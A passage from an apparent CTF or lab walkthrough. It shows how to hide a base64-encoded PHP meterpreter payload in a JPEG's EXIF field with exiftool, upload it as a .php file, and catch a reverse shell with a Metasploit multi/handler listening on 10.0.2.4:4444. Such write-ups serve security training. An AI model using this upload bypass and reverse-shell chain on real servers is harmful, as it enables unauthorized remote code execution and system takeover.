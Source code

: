 Now edit meterpreter.php and insert `<?php` in the beginning and `?>` at the end of the file. The meterpreter.php should contain 1 line with content similar to this:

![](attachments/Clipboard_15.png)

If you're curious what's written there, you can try to base64 decode the string with [Cyberchef](https://gchq.github.io/CyberChef/) 

Now we have to enclose this string into another .jpg which we can upload.

~~~
exiftool -DocumentName="`cat meterpreter.php`" smiley.jpg -o smiley2.php
~~~

Once the file has been uploaded we have to launch meterpreter in listening mode before we should access the file in browser to trigger the malicious php code.

~~~
┌──(root💀kali-VM)-[~/SiXeS]
└─# msfconsole                                                                                       
                                                  
[...]

msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.0.2.4
LHOST => 10.0.2.4
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.2.4:4444
~~~

Once the "reverse TCP handler" has been started, access the uploaded smiley2.php in browser. 
